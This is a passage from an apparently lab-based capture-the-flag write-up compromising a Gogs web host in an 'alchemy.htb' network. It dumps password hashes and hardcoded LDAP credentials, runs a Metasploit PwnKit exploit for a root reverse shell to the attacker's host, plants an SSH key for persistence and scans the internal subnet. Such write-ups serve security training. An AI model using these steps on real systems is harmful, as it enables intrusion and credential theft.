OFFLINE_MODE     = true

[mailer]
ENABLED = false

[auth]
REQUIRE_EMAIL_CONFIRMATION  = false
DISABLE_REGISTRATION        = true
ENABLE_REGISTRATION_CAPTCHA = false
REQUIRE_SIGNIN_VIEW         = false

[user]
ENABLE_EMAIL_NOTIFICATION = false

[picture]
DISABLE_GRAVATAR        = true
ENABLE_FEDERATED_AVATAR = false

[session]
PROVIDER = file

[log]
MODE      = file
LEVEL     = Info
ROOT_PATH = /app/gogs/log

[security]
INSTALL_LOCK = true
SECRET_KEY   = xWSFomwMWOQucM4

```

From the db I am able to parse the LDAP query:

```sql
{"Host":"172.16.0.2","Port":389,"SecurityProtocol":0,"SkipVerify":false,"BindDN":"","BindPassword":"","UserBase":"","UserDN":"CN=%s,CN=Users,dc=alchemy,dc=htb","AttributeUsername":"","AttributeName":"","AttributeSurname":"","AttributeMail":"mail","AttributesInBind":false,"Filter":"(\u0026(objectClass=user)(sAMAccountName=%s))","AdminFilter":"","GroupEnabled":false,"GroupDN":"","GroupFilter":"","GroupMemberUID":"","UserUID":""}
```

Now the only creds I am missing now is the normal user("Calde"):



Now in order to be able to crack the hash we need the salt as well:

```sql
SELECT login_name, salt, passwd FROM user;

calde	0RGJ9BGxcN	983ceac96bf72543f14a481d3ef82f3d8cbecc7d478c8c1c47c24c00703601ab1a8a597b60060524abe81adff6aa8e5dfe1b
calde_ldap	PVLDnU12lt	6dcc5badcf8dc114bd138deac93d08f1d513126a35c0465b191cd17ed0f3304e5d5b2ffb4753fe99835c0cd692ac7c3c807b
ALCHEMY	hj6JejtL4D	
aepike	r6skRP5wQT	49f63068e456732dd5ce0d420db7e24c54e32e50061191eb5d69cc50394fda9777d4ba975029bdb31c5c5f9fbbc51f4ecc2e

```

Now based on this repository [this](https://github.com/shinris3n/GogsToHashcat) is how hashcat wants the repository to look like:

```bash
sha256:10000:0RGJ9BGxcN:983ceac96bf72543f14a481d3ef82f3d8cbecc7d478c8c1c47c24c00703601ab1a8a597b60060524abe81adff6aa8e5dfe1b
```

No this can take a while...



A quick check show that this machine has the access to the internal network as well:

```bash
aepike@web01:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:9b:8f brd ff:ff:ff:ff:ff:ff
    inet 10.10.110.21/24 brd 10.10.110.255 scope global eth0
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:f2:9c brd ff:ff:ff:ff:ff:ff
    inet 172.16.0.21/24 brd 172.16.0.255 scope global eth1
       valid_lft forever preferred_lft forever
4: lxcbr0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default qlen 1000
    link/ether 00:16:3e:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 10.0.3.1/24 scope global lxcbr0
       valid_lft forever preferred_lft forever
5: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:89:ae:1f:9e brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
7: veth270c739@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 1e:e4:8a:48:b5:cd brd ff:ff:ff:ff:ff:ff link-netnsid 0

```

# Road to Root

Now I decided to upload and execute pspy and I can immediately see that there is a container in docker?

```bash
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2026/04/20 11:04:07 CMD: UID=1000  PID=8536   | ./pspy64 
2026/04/20 11:04:07 CMD: UID=1000  PID=8473   | ./agent -connect 10.10.14.12:11601 -ignore-cert 
2026/04/20 11:04:07 CMD: UID=0     PID=7840   | 
2026/04/20 11:04:07 CMD: UID=0     PID=7661   | 
2026/04/20 11:04:07 CMD: UID=1000  PID=7215   | -bash 
2026/04/20 11:04:07 CMD: UID=1000  PID=7214   | sshd: aepike@pts/0   
2026/04/20 11:04:07 CMD: UID=1000  PID=7140   | (sd-pam) 
2026/04/20 11:04:07 CMD: UID=1000  PID=7139   | /lib/systemd/systemd --user 
2026/04/20 11:04:07 CMD: UID=0     PID=7137   | sshd: aepike [priv]  
2026/04/20 11:04:07 CMD: UID=0     PID=6900   | 
2026/04/20 11:04:07 CMD: UID=0     PID=6211   | 
2026/04/20 11:04:07 CMD: UID=0     PID=2334   | /sbin/syslogd -nS -O- 
2026/04/20 11:04:07 CMD: UID=1000  PID=2333   | /app/gogs/gogs web 
2026/04/20 11:04:07 CMD: UID=0     PID=2332   | sshd: /usr/sbin/sshd -D -f /app/gogs/docker/sshd_config [listener] 0 of 10-100 startups
2026/04/20 11:04:07 CMD: UID=0     PID=2331   | s6-supervise gogs 
2026/04/20 11:04:07 CMD: UID=0     PID=2330   | s6-supervise crond 
2026/04/20 11:04:07 CMD: UID=0     PID=2329   | s6-supervise syslogd 
2026/04/20 11:04:07 CMD: UID=0     PID=2328   | s6-supervise openssh 
2026/04/20 11:04:07 CMD: UID=0     PID=2261   | /bin/s6-svscan /app/gogs/docker/s6/ 
2026/04/20 11:04:07 CMD: UID=0     PID=2239   | /usr/bin/containerd-shim-runc-v2 -namespace moby -id 0f1666367ae2894b469c82288d3b5fa30e0279ac3a1288ab8223cb01ec613939 -address /run/containerd/containerd.sock 
2026/04/20 11:04:07 CMD: UID=0     PID=2221   | /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 3000 -container-ip 172.17.0.2 -container-port 3000 
2026/04/20 11:04:07 CMD: UID=0     PID=1846   | /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock 
2026/04/20 11:04:07 CMD: UID=111   PID=1777   | dnsmasq -u lxc-dnsmasq --strict-order --bind-interfaces --pid-file=/run/lxc/dnsmasq.pid --listen-address 10.0.3.1 --dhcp-range 10.0.3.2,10.0.3.254 --dhcp-lease-max=253 --dhcp-no-override --except-interface=lo --interface=lxcbr0 --dhcp-leasefile=/var/lib/misc/dnsmasq.lxcbr0.leases --dhcp-authoritative 
2026/04/20 11:04:07 CMD: UID=0     PID=1615   | /usr/lib/policykit-1/polkitd --no-debug 
2026/04/20 11:04:07 CMD: UID=0     PID=1614   | /sbin/agetty -o -p -- \u --noclear tty1 linux 
2026/04/20 11:04:07 CMD: UID=0     PID=1543   | /usr/bin/containerd 
2026/04/20 11:04:07 CMD: UID=0     PID=1542   | /usr/sbin/sshd -D 
2026/04/20 11:04:07 CMD: UID=0     PID=1541   | /usr/lib/snapd/snapd 
2026/04/20 11:04:07 CMD: UID=0     PID=1533   | /usr/sbin/irqbalance --foreground 
2026/04/20 11:04:07 CMD: UID=103   PID=1414   | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
2026/04/20 11:04:07 CMD: UID=0     PID=1413   | /usr/sbin/cron -f 
2026/04/20 11:04:07 CMD: UID=0     PID=1351   | /usr/lib/accountsservice/accounts-daemon 
2026/04/20 11:04:07 CMD: UID=0     PID=1349   | /var/web/html/alchemyweb 
2026/04/20 11:04:07 CMD: UID=0     PID=1336   | /usr/bin/lxcfs /var/lib/lxcfs/ 
2026/04/20 11:04:07 CMD: UID=0     PID=1330   | /lib/systemd/systemd-logind 
2026/04/20 11:04:07 CMD: UID=1     PID=1327   | /usr/sbin/atd -f 
2026/04/20 11:04:07 CMD: UID=102   PID=1326   | /usr/sbin/rsyslogd -n 
2026/04/20 11:04:07 CMD: UID=0     PID=775    | /usr/bin/vmtoolsd 
2026/04/20 11:04:07 CMD: UID=0     PID=774    | /usr/bin/VGAuthService 
2026/04/20 11:04:07 CMD: UID=62583 PID=650    | /lib/systemd/systemd-timesyncd 
2026/04/20 11:04:07 CMD: UID=101   PID=648    | /lib/systemd/systemd-resolved 

```

From the webpage I can see that the credentials are hadcoded:

```rust
aepike@web01:/var/web/html/src$ cat session.rs 
use std::{fs::File, io::Write};

use ldap3::{SearchEntry, LdapConnAsync, LdapConnSettings};
use serde::{Serialize, Deserialize};

#[derive(Debug, Clone, Serialize, Deserialize)]
pub struct Session {
    pub session_id: Option<String>,
    pub username: Option<String>,
}

impl Session {
    async fn ldapauth(username: String, password: String, ldapuri: String) -> bool {
        let (conn, mut ldap) = LdapConnAsync::with_settings(LdapConnSettings::new().set_starttls(false).set_no_tls_verify(true),
        ldapuri.as_str()).await.unwrap();

        ldap3::drive!(conn);
        let check = ldap.simple_bind("calde_ldap@alchemy.htb","CsAdlLDAPMoDeBrnd12!").await.unwrap().success();
        let mut name = "None".to_string();
        
        match check {
            Ok(_) => {
                let search = ldap.search(
                "CN=Users,dc=alchemy,dc=htb",
                ldap3::Scope::Subtree, 
                format!("(&(objectClass=user)(sAMAccountName={}))",
                &username).as_str(),
                vec!["cn"]).await.unwrap().success().unwrap();

                for ent in search.0 {
                    match SearchEntry::construct(ent).attrs.get("cn") {
                        Some(cn) => name = cn.iter().next().unwrap().to_owned(),
                        None => return false,
                    }
                }
            },
            Err(_) => return false,
            }    
            // ldap.unbind().await.unwrap();
            

```

Now I decided to run a Linpeas as well and immediately I see that the linux version in extremely old:

```bash
╔══════════╣ Operative system
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#kernel-exploits
Linux version 4.15.0-154-generic (buildd@lcy01-amd64-011) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #161-Ubuntu SMP Fri Jul 30 13:04:17 UTC 2021
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.5 LTS
Release:	18.04
Codename:	bionic

╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.21p2


```

I see also a strage cron job:

```
/usr/bin/crontab
incrontab Not Found
-rw-r--r-- 1 root root     722 Nov 16  2017 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Aug 24  2021 .
drwxr-xr-x 97 root root 4096 Apr 10  2024 ..
-rw-r--r--  1 root root  589 Jan 30  2019 mdadm
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rw-r--r--  1 root root  191 Aug  5  2019 popularity-contest

/etc/cron.daily:
total 56
drwxr-xr-x  2 root root 4096 Aug 24  2021 .
drwxr-xr-x 97 root root 4096 Apr 10  2024 ..
-rwxr-xr-x  1 root root  376 Nov 20  2017 apport
-rwxr-xr-x  1 root root 1478 Apr 20  2018 apt-compat
-rwxr-xr-x  1 root root  355 Dec 29  2017 bsdmainutils
-rwxr-xr-x  1 root root 1176 Nov  2  2017 dpkg
-rwxr-xr-x  1 root root  372 Aug 21  2017 logrotate
-rwxr-xr-x  1 root root 1065 Apr  7  2018 man-db
-rwxr-xr-x  1 root root  539 Jan 30  2019 mdadm
-rwxr-xr-x  1 root root  538 Mar  1  2018 mlocate
-rwxr-xr-x  1 root root  249 Jan 25  2018 passwd
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rwxr-xr-x  1 root root 3477 Feb 21  2018 popularity-contest
-rwxr-xr-x  1 root root  214 Nov 12  2018 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Aug  5  2019 .
drwxr-xr-x 97 root root 4096 Apr 10  2024 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Aug  5  2019 .
drwxr-xr-x 97 root root 4096 Apr 10  2024 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x  2 root root 4096 Aug 24  2021 .
drwxr-xr-x 97 root root 4096 Apr 10  2024 ..
-rwxr-xr-x  1 root root  723 Apr  7  2018 man-db
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rwxr-xr-x  1 root root  211 Nov 12  2018 update-notifier-common


```

Now since there is not much except my user and judging by the very outdated os I suspect the LPE to root must be involving a CVE so i decided to obtain a shell via Metasploit and perform a enumeration via that way.

```bash
sf post(multi/recon/local_exploit_suggester) > run
[*] 10.10.110.21 - Collecting local exploits for x64/linux...
[*] 10.10.110.21 - 248 exploit checks are being tried...
[+] 10.10.110.21 - exploit/linux/local/cve_2021_3493_overlayfs: The target appears to be vulnerable.
[+] 10.10.110.21 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 10.10.110.21 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 10.10.110.21 - exploit/linux/local/docker_cgroup_escape: The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-154-generic is vulnerable
[+] 10.10.110.21 - exploit/linux/local/nested_namespace_idmap_limit_priv_esc: The target appears to be vulnerable.
[+] 10.10.110.21 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 10.10.110.21 - exploit/linux/local/runc_cwd_priv_esc: The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.1.4-0ubuntu1~18.04.2.
[+] 10.10.110.21 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 10.10.110.21 - exploit/linux/local/sudo_baron_samedit: The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
[+] 10.10.110.21 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1.4 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[+] 10.10.110.21 - exploit/linux/persistence/bash_profile: The service is running, but could not be validated. Bash profile exists and is writable: /home/aepike/.bashrc
[+] 10.10.110.21 - exploit/linux/persistence/init_systemd: The target appears to be vulnerable. /tmp/ is writable and system is systemd based
[+] 10.10.110.21 - exploit/multi/persistence/cron: The target appears to be vulnerable. Cron timing is valid, no cron.deny entries found
[*] Running check method for exploit 93 / 93
[*] 10.10.110.21 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-154-generic is vulnerable
 5   exploit/linux/local/nested_namespace_idmap_limit_priv_esc           Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 7   exploit/linux/local/runc_cwd_priv_esc                               Yes                      The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.1.4-0ubuntu1~18.04.2.
 8   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 9   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
 10  exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1.4 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
 11  exploit/linux/persistence/bash_profile                              Yes                      The service is running, but could not be validated. Bash profile exists and is writable: /home/aepike/.bashrc
 12  exploit/linux/persistence/init_systemd                              Yes                      The target appears to be vulnerable. /tmp/ is writable and system is systemd based
 13  exploit/multi/persistence/cron                                      Yes                      The target appears to be vulnerable. Cron timing is valid, no cron.deny entries found

```

But seems like the pwnkit works as expected:

```bash
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run
[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.thplydntasy
[+] The target is vulnerable.
[*] Writing '/tmp/.wvbnvfgpq/buhazkk/buhazkk.so' (540 bytes) ...
[!] Verify cleanup of /tmp/.wvbnvfgpq
[*] Sending stage (3090404 bytes) to 10.10.110.21
[+] Deleted /tmp/.wvbnvfgpq/buhazkk/buhazkk.so
[+] Deleted /tmp/.wvbnvfgpq/.mpaxjnca
[+] Deleted /tmp/.wvbnvfgpq
[*] Meterpreter session 2 opened (10.10.14.12:4444 -> 10.10.110.21:58808) at 2026-04-20 13:37:22 +0200

id

meterpreter > 
meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > ls
Listing: /
==========

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
040755/rwxr-xr-x  4096      dir   2021-08-24 15:19:27 +0200  bin
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:49 +0200  boot
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:49 +0200  cdrom
040755/rwxr-xr-x  3780      dir   2026-04-20 04:10:28 +0200  dev
040755/rwxr-xr-x  4096      dir   2024-04-10 17:39:38 +0200  etc
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:50 +0200  home
100644/rw-r--r--  60791848  fil   2021-08-24 15:22:42 +0200  initrd.img
100644/rw-r--r--  60791848  fil   2021-08-24 15:22:42 +0200  initrd.img.old
040755/rwxr-xr-x  4096      dir   2023-12-08 12:03:23 +0100  lib
040755/rwxr-xr-x  4096      dir   2023-12-08 12:02:24 +0100  lib64
040700/rwx------  16384     dir   2020-04-13 18:44:53 +0200  lost+found
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:49 +0200  media
040755/rwxr-xr-x  4096      dir   2019-08-05 21:22:58 +0200  mnt
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:50 +0200  opt
040555/r-xr-xr-x  0         dir   2026-04-20 04:10:19 +0200  proc
040700/rwx------  4096      dir   2024-04-10 16:17:08 +0200  root
040755/rwxr-xr-x  1020      dir   2026-04-20 13:33:07 +0200  run
040755/rwxr-xr-x  12288     dir   2024-04-10 17:32:49 +0200  sbin
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:49 +0200  snap
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:50 +0200  srv
040555/r-xr-xr-x  0         dir   2026-04-20 12:33:42 +0200  sys
041777/rwxrwxrwx  4096      dir   2026-04-20 13:37:24 +0200  tmp
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:49 +0200  usr
040755/rwxr-xr-x  4096      dir   2024-04-10 17:32:50 +0200  var
100600/rw-------  8453792   fil   2021-07-30 14:43:23 +0200  vmlinuz
100600/rw-------  8453792   fil   2021-07-30 14:43:23 +0200  vmlinuz.old

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > getuid 
Server username: root
meterpreter > 


```

Now I will add my local keys in order to get a login via ssh instead!

```bash
meterpreter > shell
Process 22286 created.
Channel 2 created.
ls
authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDC56T+CJsldompfPq4RnGd94aC5/SDk0Oi16blt+zPzMGJpJSlKXNHc9AJGl8qagziNY8C+Y8tYnUF2YNaxsiSVSizD07tvGkgxapqRJ0x9mVVikdQJdfE9CAQCcE1RaJ7KtMsvAdc5eqRTsmX5EXicaEIAQmJ0pbiOVfe5uIGHQd7BRdT5GpHa9VQthR+EAavZhht28S4anOtsN5J27rmRDO51qiGAD6jyv1h/0lmp6Ql2QbDf6gFaUONg4nEEYy7HFTM1+fMtcNEIJe2ClOyYCAzsX8V9HzyVJQG/hqkaYYY80/FoPDeBi5Eso8Z4AISEUxNlPvaOSIxiPuZ2sQbrqPuN+gHgquKip37jxPE2HDfSmU2uMWQ8ue6Xj+Dk6ZaeabpmggO5PKfXkuAZkIXmyZm8GluMwahvCIsVJKy2+H87wLu+RCOGA3sPKN0OyXolFMSKaXaYea67445G7nzCpY2bn6vAKsjQALu5hUkh7UNxdBAO7n0b+lakHmvm25kzQ7QJe55OkWD16DHaH46uadn46OBMbHeaaukzgF/EYK8S4ji2ab8N3z4B7uD4o9XaFaYtpnzvv/5/7SwtEDSZD6Z7IHIUeYJSOOPuu1H6tys7ZAEj+wuRAJ0/BhvD+UEq/VKlWFAhKAfeOffa3KExWlbpKphVPbubzQjODLEvQ== user@kali-almi" >> authorized_keys
ls
authorized_keys

```

And grab another flag:

```bash
└─$ ssh root@10.10.110.21  
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 20 11:40:23 UTC 2026

  System load:  0.01               Users logged in:        1
  Usage of /:   70.3% of 13.66GB   IP address for eth0:    10.10.110.21
  Memory usage: 14%                IP address for eth1:    172.16.0.21
  Swap usage:   0%                 IP address for lxcbr0:  10.0.3.1
  Processes:    195                IP address for docker0: 172.17.0.1


202 updates can be applied immediately.
160 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Apr 10 14:16:55 2024
root@web01:~# ll
total 64
drwx------ 11 root root 4096 Apr 10  2024 ./
drwxr-xr-x 24 root root 4096 Apr 10  2024 ../
drwx------  3 root root 4096 Dec  8  2023 .ansible/
lrwxrwxrwx  1 root root    9 Aug 24  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3127 Dec 11  2023 .bashrc
drwxr-xr-x  3 root root 4096 Feb  7  2024 BreweryControlLogic/
drwx------  3 root root 4096 Dec  8  2023 .cache/
drwxr-xr-x  4 root root 4096 Dec 11  2023 .cargo/
-rw-r--r--  1 root root   34 Mar 31  2024 flag.txt
-rw-r--r--  1 root root   48 Feb  7  2024 .gitconfig
drwx------  3 root root 4096 Apr 27  2020 .gnupg/
drwxr-xr-x  3 root root 4096 May  7  2020 .local/
-rw-r--r--  1 root root  169 Dec 11  2023 .profile
drwxr-xr-x  6 root root 4096 Dec 11  2023 .rustup/
drwx------  2 root root 4096 Apr 13  2020 .ssh/
drwxr-xr-x  2 root root 4096 Nov  5  2023 .vim/
-rw-------  1 root root 1130 Apr 10  2024 .viminfo
root@web01:~# cat flag.txt 
ALCHEMY{7h3_8391nn1n9_0f_7h3_3nd}
root@web01:~# 

```

# Post Exploitation

Now from the vim file I was able to see the values of the old flag(sadly it has been changed):

```bash
root@web01:~# cat .viminfo
# This viminfo file was generated by Vim 8.0.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Command Line History (newest to oldest):
:wq
|2,0,1712758628,,"wq"

# Search String History (newest to oldest):

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:
""1	LINE	0
    ALCHEMY{K3RN3l_3xP_N3v3r_9375_OLD}
|3,1,1,1,1,0,1711913674,"ALCHEMY{K3RN3l_3xP_N3v3r_9375_OLD}"

# File marks:
'0  2  14  /etc/hosts
|4,48,2,14,1712758628,"/etc/hosts"
'1  1  32  ~/flag.txt
|4,49,1,32,1711913678,"~/flag.txt"

```

Now from this page I can also see another repository of a PLC code?

```bash
root@web01:~/BreweryControlLogic# ls -al
total 52
drwxr-xr-x  3 root root 4096 Feb  7  2024 .
drwx------ 11 root root 4096 Apr 10  2024 ..
-rw-r--r--  1 root root 1318 Feb  7  2024 bottle_filling.st
-rw-r--r--  1 root root 3841 Feb  7  2024 conditioning_aging.st
-rw-r--r--  1 root root 6849 Feb  7  2024 fermentation.st
drwxr-xr-x  8 root root 4096 Feb  7  2024 .git
-rw-r--r--  1 root root 3407 Feb  7  2024 lautering.st
-rw-r--r--  1 root root 4332 Feb  7  2024 mash_mixing.st
-rw-r--r--  1 root root 1379 Feb  7  2024 README.md
-rw-r--r--  1 root root 5368 Feb  7  2024 wort_boiling.st
root@web01:~/BreweryControlLogic# 

```

And as I guessed the Gogs in executed in a dockerized environment:

```bash
root@web01:~/BreweryControlLogic# docker ps
CONTAINER ID   IMAGE       COMMAND                  CREATED       STATUS                  PORTS                            NAMES
0f1666367ae2   gogs/gogs   "/app/gogs/docker/st…"   2 years ago   Up 10 hours (healthy)   22/tcp, 0.0.0.0:3000->3000/tcp   gogs
root@web01:~/BreweryControlLogic# 


```

I feel confident I can move on to the internal network

# Internal network enumeration

From the previous check of the NIC i discovered that the machine is running on the IP 172.16.0.0/24 so I will perform a quick ping scan:

```bash
 fping -asqg 172.16.0.0/24                                                     
172.16.0.1
172.16.0.2
172.16.0.3
172.16.0.20
172.16.0.21
172.16.0.32
172.16.0.33

     254 targets
       7 alive
     247 unreachable
       0 unknown addresses

     988 timeouts (waiting for response)
     995 ICMP Echos sent
       7 ICMP Echo Replies received
       0 other ICMP received

 23.0 ms (min round trip time)
 25.7 ms (avg round trip time)
 28.3 ms (max round trip time)
        9.733 sec (elapsed real time)


```

Now the .21 is this current machine and the .1 is the gateway I feel all the others are worth testing.

&nbsp;

&nbsp;

&nbsp;